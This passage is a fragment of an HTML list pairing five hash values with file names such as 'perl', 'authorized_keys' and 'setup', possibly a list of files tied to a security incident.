  <li>24d99819577424c9b7eda952017988d119683c95  perl</li>
  <li>e417ab727cf42a1dcc180bb03fb05e1ecdcdb523  authorized_keys</li>
  <li>31794942f3fd3ce51ac2505ea7825e56f8848a70  setup</li>
  <li>b45ae5d8d3069ee7f880dd461c931fa711b6ad3d  f</li>
  <li>9ad74c0d98772b153d43a6ab4e8b297f2dd67e80  cfg</li>
</ul>
